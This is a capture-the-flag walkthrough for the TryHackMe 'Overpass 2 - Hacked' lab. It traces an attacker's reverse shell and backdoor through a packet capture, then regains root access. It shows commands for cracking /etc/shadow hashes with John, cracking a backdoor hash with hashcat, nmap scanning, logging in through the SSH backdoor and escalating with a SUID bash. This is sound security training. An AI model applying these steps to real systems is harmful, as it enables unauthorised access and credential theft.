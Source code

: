 # Overpass 2 - Hacked

Link: [Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)

## High-Level Overview

The company Overpass has been hacked. We need to investigate suspicious activity. Figure out how the attacker got in, then hack your way back into the production server.

## Tools Needed

* Wireshark
* John the Ripper
* Hashcat
* Nmap

## Walkthrough

First we began investigating the `pcapng` file with Wireshark. We will right click the first packet and click `Follow` `TCP Stream`. In the request we can see the URL of the page the attacker uploaded a reverse shell.

We can now filter out this stream and then investigate the next Stream of the first packet that appears after we apply the filter below:

```
!(tcp.stream eq 0)
```

This stream reveals the payload contents.

We can investigate the next streams by either filtering out the specific stream number or when we follow a TCP stream we can increment the stream number in the bottom right corner of the screen.

```
tcp.stream eq 3
```

In the TCP Stream 3 we can see the password revealed in plaintext, and how the attacker established persistence (`git clone https://github.com/NinjaJc01/ssh-backdoor`)

In the same stream we can see the contents of the `/etc/shadow` file. We can create a file on our own machine and then see if we can crack any using John The Ripper.

```bash
$ sudo john --wordlist=/usr/share/wordlists/fasttrack.txt shadow
```

For the next part we need to analyze the code for the backdoor. That is located in the `main.go` file of the previously discovered repository. There we can identify the hash and the salt for the backdoor.

Going back to the TCP Stream 3 of the pcap file , we can see the salt the attacker used by looking for the command `./backdoor -a`

Lets see if we can crack this hash using hashcat. First we need to investigate the source code, which points out that the hash is created using sha512, then using password + salt in that order. Hashcat wiki says that the hasmode we are looking for is 1710. To crack the hash we need to place the hash in a file and then use hashcat with the following command:

```bash
$ touch hash
$ nano hash
# paste hash in, followed by the separator :, and finally the salt
# hash:salt
$ hashcat -m 1710 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt
$ cat cracked.txt
```

Now we are ready to hack our way back in. We need to do an initial scan with nmap to see what services are running:

```bash
$ sudo nmap -T5 -vvv -sS -A -Pn -oN nmap-scan -p- MACHINE:IP
```

There are 3 ports open:

* 22 - SSH
* 80 - HTTP
* 2222 - SSH

The SSH running on port 2222 is the backdoor and we will be using it to connect using the previously identified credentials.

```bash
$ ssh james@MACHINE:IP -p 2222
```

We can see in the home folder of the user `james` our `user.txt` flag.

In order to get the root flag we need to see about escalating privileges.

Looking for files with the SUID bit set using the command

```bash
$ find / -perm -u=s -type f 2>/dev/null 
```

We see there is a binary in james home folder

```bash
/home/james/.suid_bash
```

This was likely used by the attacker in order to escalate privileges, and using GTFO Bins website we get more insight into it. We can use the command:

```bash
$ ./suid_bash -p
```

Now we have a root shell, and we can read the `root.txt` flag located in the `/root` folder.